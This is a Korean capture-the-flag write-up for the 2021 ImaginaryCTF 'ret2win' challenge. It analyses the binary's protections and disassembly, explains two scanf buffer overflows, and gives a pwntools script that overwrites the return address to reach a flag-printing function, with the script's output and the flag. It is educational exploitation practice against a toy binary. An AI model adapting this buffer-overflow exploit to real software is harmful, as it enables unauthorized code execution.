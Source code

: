 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-42-37.png)

첨부파일

[ret2win.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round9/ret2win/file/ret2win.zip)


# **Write-Up**

ret2win의 기본 정보를 파악한다.

```sh
root@ubuntu:~# file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8a87728e002ee79777aa4dbce3ec1e2c6174f358, for GNU/Linux 3.2.0, not stripped
root@ubuntu:~# checksec ret2win
[*] '/root/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

언제나 그렇듯 입력받는 부분(scanf)에서 overflow가 터진다.

```
0x000000000040125f <+98>:    lea    -0x10(%rbp),%rax
0x0000000000401263 <+102>:   mov    %rax,%rsi
0x0000000000401266 <+105>:   lea    0xdda(%rip),%rdi        # 0x402047
0x000000000040126d <+112>:   mov    $0x0,%eax
0x0000000000401272 <+117>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x0000000000401277 <+122>:   cmpl   $0x1337c0d3,-0x4(%rbp)
0x000000000040127e <+129>:   jne    0x4012a4 <main+167>
0x0000000000401280 <+131>:   lea    0xdc5(%rip),%rdi        # 0x40204c
0x0000000000401287 <+138>:   callq  0x401080 <puts@plt>
0x000000000040128c <+143>:   lea    -0x1c(%rbp),%rax
0x0000000000401290 <+147>:   mov    %rax,%rsi
0x0000000000401293 <+150>:   lea    0xdb8(%rip),%rdi        # 0x402052
0x000000000040129a <+157>:   mov    $0x0,%eax
0x000000000040129f <+162>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x00000000004012a4 <+167>:   mov    $0x0,%eax
0x00000000004012a9 <+172>:   leaveq
0x00000000004012aa <+173>:   retq
```

또한 0x4011BA에서 flag.txt를 읽고 출력하는 로직이 존재한다.

![](images/2022-05-18-19-43-03.png)

첫번째 scanf에서는 0x10(16)byte만큼 공간이 확보되지만, 0x401266에서 20byte만큼 받을 수 있다. 그리고 0x401277에서 [rbp-4]와 0x1337C0D3와 비교하여 일치해야 다음 로직으로 진행할 수 있다.(여기서 overflow는 필요없음)

![](images/2022-05-18-19-43-13.png)

두번째 scanf에서는 0x1C(28)byte만큼 공간이 확보되지만, 0x401293에서 44byte만큼 받을 수 있고, 0x4012A4에서 return할 때, flag를 출력하는 로직이 시작되는 부분(0x4011BA)으로 return address를 덮으면 된다.

![](images/2022-05-18-19-43-20.png)

따라서 exploit 코드는 다음과 같이 작성하면 flag를 획득할 수 있다. (포스팅 시 해당 대회는 이미 끝난 상태라 로컬에서 flag.txt를 만들고 그 안에 flag값을 넣고 진행)

```py
from pwn import *
context(arch='amd64')
p = process('./ret2win')

payload = b''
payload += b'\x00'*(0x10 - 0x04)
payload += p32(0x1337C0D3)
p.recvuntil('specific')
p.sendline(payload)

payload = b'\x00'*(0x1C + 0x08)
payload += p64(0x4011BA)
p.recvuntil('Check')
p.sendline(payload)

p.interactive()

[Output]
root@ubuntu:~# [+] Starting local process './ret2win': pid 3225
[*] Switching to interactive mode

ictf{mak1ng_r@nd0m_flags_15_n0t_fun}

[*] Got EOF while reading in interactive
$
```


# **FLAG**

**ictf{mak1ng_r@nd0m_flags_15_n0t_fun}**
